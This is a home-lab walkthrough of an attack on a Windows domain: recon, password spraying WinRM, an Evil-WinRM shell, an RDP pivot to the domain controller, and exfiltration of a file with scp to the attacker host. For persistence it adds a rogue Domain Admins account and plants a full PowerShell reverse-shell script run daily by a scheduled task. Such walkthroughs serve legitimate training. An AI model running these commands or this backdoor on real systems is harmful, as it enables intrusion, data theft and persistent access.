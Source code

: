 Lateral movement is a tactic used by attackers to navigate through a compromised network to gain access to additional systems, resources, or data. 
It occurs after an initial breach and is an essential phase in many cyber-attacks. It helps them maintain persistence, avoid detection, and prepare for further actions like data exfiltration or ransomware deployment. Common methods include credential dumping, exploiting vulnerabilities, and leveraging legitimate tools like PowerShell or RDP. 

In the Privilege Escalation phase, attackers aim to increase their level of access within the compromised environment. By obtaining higher privileges, such as administrator or root access, adversaries gain greater control over the systems.
Techniques include exploiting software vulnerabilities, misconfigured user accounts, or password weaknesses. For example, attackers may exploit unpatched privilege escalation bugs to override normal restrictions. This expanded access enables attackers to modify system configurations, disable security measures, and access sensitive data, making it a critical phase in advancing their attack.

- as before, I need to find out more about the system I am on:
	- cat /etc/os-release
	- hostname
	- ip a
	- nmap -Pn -p1-65535 -sV 10.0.0.0/24
- looks like 5985 and 5986 ports are opened; these ports are WinRM
Windows Remote Management (WinRM): A Windows-based protocol and service that allows administrators to manage and interact with remote computers. WinRM is a service that must be running on both the client and the target system. A "listener" is set up on the remote machine to accept incoming connections on specific ports 5985 (HTTP) 5986 (HTTPS).

- I can now perform some password spraying to see if I can get access to the machine. 
- NetExec: A tool used to compromise services within a network such as: SMB; SSH; LDAP; FTP; WMI; WINRM; RDP; VNC; MSSQL
- Like Hydra, NetExec takes a list of usernames and passwords. I can source usernames and password lists for SecLists. SecLists is a very popular, open-source word list for usernames and passwords.
	- sudo nano users.txt
	- Add Administrator in first line
	- sudo nano pass.txt
	- Add @Deeboodah1! in the first line
	- nxc winrm 10.0.0.100 -u users.txt -p pass.txt

![netExec run](images/netExec.png)

- One common technique for gaining access to a system is to spawn a shell by leveraging insecure protocols and outdated software packages with known exploits.
- WinRM is one of these vulnerable protocls, and I can use EvilWinRM to gain access
- Evil-WinRM: An open-source, command-line tool that provides remote shell access to Windows machines over WinRM
- Evil-WinRM connects to a target system via the WinRM service, you must have valid credentials. Once authenticated, it initiates a Powershell session
	- `evil-winrm -I 10.0.0.100 -u Administrator -p @Deeboodah1!`

![image](images/evilWinRM.png)

- I have access to the [project-x-win-client] with the Administrator account. Let’s see if I can pivot to the domain controller.
- for that, I first need to see what domain this workstation is a part of and its corresponding IP address
	- `nltest /dsgetdc:`
- Let’s see what open ports this device has. (I could install nmap on the Windows 11 machine if the attacker machine was not on the same network). 

![open ports on Windows 11 machine](images/openPorts.png)

- port 3389 is open, that is the port for the Remote Desktop Protocol
- I can use xfreerdp on my attacker machine to establish a new session
	- `xfreerdp /v:10.0.0.5 /u:Administrator /p:@Deeboodah1! /d:corp.project-x-dc.com`

- now I have access to the domain controller
- I am free to navigate through the file system and to find the secrets.txt file

## Dara exfiltration

Attackers extract valuable or sensitive information from the compromised network. The goal here is to transfer data such as intellectual property, customer records, or financial information to an external location controlled by the adversary. 
Methods include encrypting and compressing data to avoid detection, using covert channels like DNS tunneling or HTTPS, or exfiltrating data in small chunks to evade bandwidth monitoring. Successful data exfiltration can result in significant reputational, operational, and financial damage to the target.

Since I have access via RDP, I could use a cloud storage provider to upload the sensitive files or I could use SMB to share files between my Kali machine since I am connected on the same network, although this is not very realistic. I am just going to use scp command line program to copy the files, to take the simple way (also not very realistic).

- in the Windows Domain Controller:
	- open a new terminal window
	- go to `C:\Users\Administrator\Documents\ProductionFiles`
	- `scp ".\secrets.txt" attacker@10.0.0.50:/home/attacker/my_sensitive_file.txt`
	- enter the attacker password


## Persistence

Now that I have effectively pwned the environment, it’s time to ensure I can come back to where I left off. Persistence refers to attackers maintain access to a system even after their initial intrusion is discovered and remediated. This ensures the attacker’s operations can continue despite interruptions. 
Common techniques include installing backdoors, creating rogue accounts, or leveraging legitimate tools for remote access like RDP or VPNs. Persistence mechanisms are often embedded deep in the system, such as registry modifications or startup scripts, to resist detection and removal. This tactic is especially critical for long-term campaigns where adversaries intend to maintain a foothold over extended periods.

- the way I will achieve this is by creating my own local account, called project-x-user
	- `net user project-x-user @mypassword1! /add`
	- `net localgroup Administrator project-x-user /add`
	- `net group "Domain Admins" project-x-user /add`

![verify user has been created](images/verifyUser.png)

- In addition to a new user, I can create a Scheduled Task which will run a backdoor.
- Windows allows you to create scheduled tasks to perform various automations on a timeline

- Back into the Kali machine, create a new file using nano and add the following to a script called reverse.ps1
```
$ip = "10.0.0.50" 
$port = 4444
$client = New-Object System.Net.Sockets.TCPClient($ip, $port)
$stream = $client.GetStream()
$writer = New-Object System.IO.StreamWriter($stream)
$reader = New-Object System.IO.StreamReader($stream)
$writer.AutoFlush = $true
$writer.WriteLine("Connected to reverse shell!")
while ($true) {
 try {
 # Read commands from the listener (attacker)
 $command = $reader.ReadLine()
 if ($command -eq 'exit') {
 break
 }
 # Execute the command on the target machine
 $output = Invoke-Expression $command 2>&1
 $writer.WriteLine($output)
 } catch {
 $writer.WriteLine("Error: $_")
 }
}
$client.Close()
```

- Use a python webserver to upload the copy from [project-x-attacker] to [project-x-dc], from where the reverse.ps1 script is, perform:
	- `python -m http.server`
- Navigate to http://10.0.0.50:8000.
- Download the reverse.ps1 file.
- Move the reverse.ps1 file.
- Windows Defender will ask if we want to keep this file, select “Keep”.

![image](images/backdoor1.png

- Copy the file to: C:\Users\Administrator\AppData\Local\Microsoft\Windows\reverse.ps1

![image](images/backdoor2.png)

- In the same terminal session of the Windows machine, add the following:
```
schtasks /create /tn "PersistenceTask" /tr "powershell.exe -
ExecutionPolicy Bypass -File
C:\Users\Administrator\AppData\Local\Microsoft\Windows\reverse.ps
1" /sc daily /st 12:00
```

- Now at 12:00 PM I can catch a reverse shell by opening a listener on port 4444 on [project-x-attacker]. 

![image](images/backdoor3.png)

- now, i need to go to the Kali machine and i type `nc -lvnp 4444`
- in the project-x-dc terminal add:
```
Set-ExecutionPolicy Unrestricted -Scope Process
powershell.exe -executionpolicy -bypass .\reverse.ps1
.\reverse.ps1
r
```

![image](images/backdoor4.png)


